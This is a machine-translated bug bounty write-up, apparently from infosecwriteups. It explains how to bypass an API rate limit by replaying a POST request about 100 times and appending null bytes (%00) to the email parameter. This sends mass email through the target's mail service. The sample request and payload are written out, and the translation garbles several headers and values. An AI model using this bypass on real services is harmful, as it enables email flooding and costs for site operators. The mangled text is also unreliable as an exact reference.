 # 赏金小费！！绕过 API 速率限制的最简单方法。

> 原文：<https://infosecwriteups.com/bounty-tip-easiest-way-to-bypass-apis-rate-limit-f984fad40093?source=collection_archive---------1----------------------->

# 什么是速率限制？

**速率限制**用于控制网络的进出流量。如果你**正在**使用一个被配置为每分钟允许 100 个请求的特定 API。如果您发出的请求数量超过了那个**限制**，那么将会触发一个错误

![](img/755d176bcff5325d7410908017c2a611.png)

我最近被邀请参加一个私人项目，在这个项目中，web 应用程序正在 REST API 上工作，我注意到每当用户点击/users_log_in 端点太多次时，它会反映输出-: *“太多请求”*

```
HTTP/1.1 429 Too Many Requests
Date: Mon, 10 March 2020 05:35:28 GMT
Content-Type: text/plain
```

## 发送以下 POST 请求:-

> POST /secret HTTP/1.1
> 主机:www.Example.com
> 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64RV:75.0)Gecko/2010 01 01 Firefox/75.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:179
> 产地:https://www.Example.com
> 连接:close
> Referer: https://www .Example.com/secret/new
> 
> 令牌:** *令牌* **&utf8 = % E2 % 9C % 93&user%5email%5D=YOUR_EMAIL@example.com&提交=发送

*现在向入侵者发送这个请求，并通过固定任意有效载荷重复 100 次-:*

> **语言:en-US，en；q=0。5 美元**

& user % 5 EMAIL % 5D = YOUR _ EMAIL @ example . com % 00-并在每次用完您的速率限制后继续添加 *%00* 。

![](img/077a5e6d85626e5ce162a57dd5bae514.png)

你会在你的收件箱里收到 200 个 OK 状态码和 100 多封邮件

***影响-:*** *没有实际影响* *但是* *如果您正在使用任何电子邮件服务 API 或某些工具，这种类型的攻击会导致财务损失，还会降低您的邮件服务速度*

# HappyHacking #错误提示